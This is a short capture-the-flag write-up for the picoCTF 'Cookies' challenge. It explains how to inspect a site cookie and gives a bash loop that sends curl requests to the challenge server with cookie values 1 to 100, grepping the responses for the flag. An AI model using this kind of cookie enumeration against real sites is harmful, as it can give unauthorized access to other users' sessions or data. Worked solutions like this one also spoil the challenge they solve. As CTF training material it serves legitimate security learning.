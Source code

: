 # Cookies

Inspect and view the Cookies used/set by the site. There is a cookie with name "name" and value "-1"
On changing the value and reloading, a request is sent (observe in Networks tab), and a different message is displayed on the screen for different value.
Copy the GET request as curl, and run a script:

```bash
START=1
END=100

for ((i=START; i<=END; i++))
do
    echo "Running curl with cookie name: $i"
    curl 'http://mercury.picoctf.net:21485/check' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    -H 'Accept-Language: en-GB,en;q=0.9' \
    -H 'Cache-Control: max-age=0' \
    -H "Cookie: name=$i" \
    -H 'Proxy-Connection: keep-alive' \
    -H 'Referer: http://burpsuite/' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36' \
    --insecure
    echo -e "\n"
done
```

`grep "picoCTF"` can be used to print the flag while the script is running.
